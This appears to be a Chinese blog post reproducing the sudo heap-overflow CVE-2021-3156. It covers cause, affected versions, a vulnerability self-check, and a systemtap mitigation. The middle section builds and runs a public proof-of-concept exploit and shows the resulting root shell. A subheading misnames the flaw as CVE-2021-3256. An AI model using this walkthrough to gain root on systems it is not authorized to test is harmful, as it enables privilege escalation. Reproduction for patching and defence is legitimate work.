



CVE-2021-3156 sudo堆缓冲区溢出漏洞复现
2021-01-30
CVE-2021-3256 sudo堆缓冲区溢出漏洞提权复现
漏洞原因：
- 在
sudo解析命令行参数的方式中发现了基于堆的缓冲区溢出。任何本地用户（普通用户和系统用户，sudoer和非sudoers）都可以利用此漏洞，而无需进行身份验证，攻击者不需要知道用户的密码。成功利用此漏洞可以获得root权限。
用户可以使用如下方法进行自查：
以非root用户登录系统，并使用命令sudoedit -s /
如果响应一个以
sudoedit:开头的报错，那么表明存在漏洞。如果响应一个以
usage:开头的报错，那么表明补丁已经生效。
影响版本
sudo:sudo: 1.8.2 – 1.8.31p2sudo:sudo: 1.9.0 – 1.9.5p1
漏洞复现
环境
- Ubuntu 20.0
- sudo 1.8.31
- exp下载地址 CVE-2021-3156.zip
注：此exp需要make和gcc环境
test@ubuntu20:~/CVE-2021-3156$ ls
Makefile hax.c lib.c libnss_X
test@ubuntu20:~/CVE-2021-3156$
make编译
test@ubuntu20:~/CVE-2021-3156$ make
rm -rf libnss_X
mkdir libnss_X
gcc -o sudo-hax-me-a-sandwich hax.c
gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
test@ubuntu20:~/CVE-2021-3156$ ls
Makefile hax.c lib.c libnss_X sudo-hax-me-a-sandwich
test@ubuntu20:~/CVE-2021-3156$
运行exp
test@ubuntu20:~/CVE-2021-3156$ ./sudo-hax-me-a-sandwich
**** CVE-2021-3156 PoC by blasty <peter@haxx.in>
[+] bl1ng bl1ng! We got it!
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root),1002(test)
#
修复建议
通用修补建议
下载升级sudo软件包，下载链接为：
临时修补建议
对于无法立即更新的用户，建议使用systemtap进行以下临时缓解：
- 安装所需的
systemtap软件包和依赖项：
systemtap yum-utils kernel-devel-"$(uname -r)"对于RHEL 7，使用命令安装 kernel debuginfo：debuginfo-install -y kernel-"$(uname -r)"。 对于RHEL 8，使用命令安装 sudo debuginfo：debuginfo-install sudo。
- 创建以下
systemtap脚本（将文件命名为sudoedit-block.stap）:
probe process("/usr/bin/sudo").function("main") {
command = cmdline_args(0,0,"");
if (strpos(command, "edit") >= 0) {
raise(9);
}
}- 使用以下命令安装脚本：（使用root权限）
# nohup stap -g sudoedit-block.stap &该脚本将使得易受攻击的sudoedit二进制文件停止工作。 sudo命令仍将照常工作。上述更改在重启后失效，必须在每次重启后重新应用。
- 一旦安装了补丁程序，就可以通过取消
systemtap进程来删除systemtap脚本。 例如，通过使用：
# kill -s SIGTERM 7590 (其中7590是systemtap进程的PID)